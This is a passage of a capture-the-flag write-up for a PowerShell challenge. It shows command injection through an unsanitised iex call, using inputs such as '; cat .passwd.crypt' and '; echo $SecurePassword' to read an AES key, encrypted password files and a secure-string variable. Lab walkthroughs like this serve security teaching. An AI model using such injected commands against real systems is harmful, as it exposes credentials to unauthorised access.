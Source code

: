 ```bash
> ; ls
Connect to the database With the secure Password: System.Security.SecureString. Backup th
e table


    Directory: C:\cygwin64\challenge\app-script\ch19


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/12/2021   9:25 AM             43 .git
-a----       10/29/2020   9:27 AM            361 .passwd.crypt
------       12/12/2021   9:50 AM            748 ._perms
-a----       10/29/2020   9:23 AM            176 AES.key
-a----       10/29/2020   9:30 AM            331 ch19.ps1
```

Nice! We have access to all of these files. But it seems our `.passwd` is encrypted. Let's use `; cat .passwd.crypt` to see:

```bash
> ; cat .passwd.crypt
Connect to the database With the secure Password: System.Security.SecureString. Backup th
e table
76492d1116743f0423413b16050a5345MgB8AEkAMQBwAEwAbgBoAHgARwBXAHkAMgB3AGcAdwB3AHQARQBqAEEAR
QBPAEEAPQA9AHwAMgAyAGMANQA1ADIANwBiADEANQA4ADIANwAwAGIANAA2ADIAMQBlADAANwA3ADIAYgBkADYANg
AyADUAYwAyAGMAYQBhAGUAMAA5ADUAMAA2ADUAYQBjADIAMQAzADIAMgA1AGYANgBkAGYAYgAxAGMAMgAwADUANQB
kADIAMgA0AGQAYgBmADYAMQA4AGQAZgBkAGQAMwAwADUANAA4AGYAMAAyADgAZAAwADEAMgBmAGEAZQBmADgANAAy
ADkA
```

Yep. This is not the answer, or else this problem would've been the same as the first one. Let's take a look at the code `ch19.ps1` running the command `; cat ch19.ps1`:

```powershell
$KeyFile = "AES.key"
$key = Get-Content $KeyFile
$SecurePassword = Get-Content .passwd.crypt | ConvertTo-SecureString -key $Key

while($true){
        Write-Host "Table to dump:"
        Write-Host -NoNewLine "> "
        $table=Read-Host

        iex "Write-Host Connect to the database With the secure Password: $SecurePassword
. Backup the table $table"
}
```

Hm. Interesting. So we could access the `$SecurePassword` variable, which might be a secure string version of the `.passwd.crypt`. To do this, we simply run:

```bash
> ; echo $SecurePassword
Connect to the database With the secure Password: System.Security.SecureString. Backup th
e table
System.Security.SecureString
```
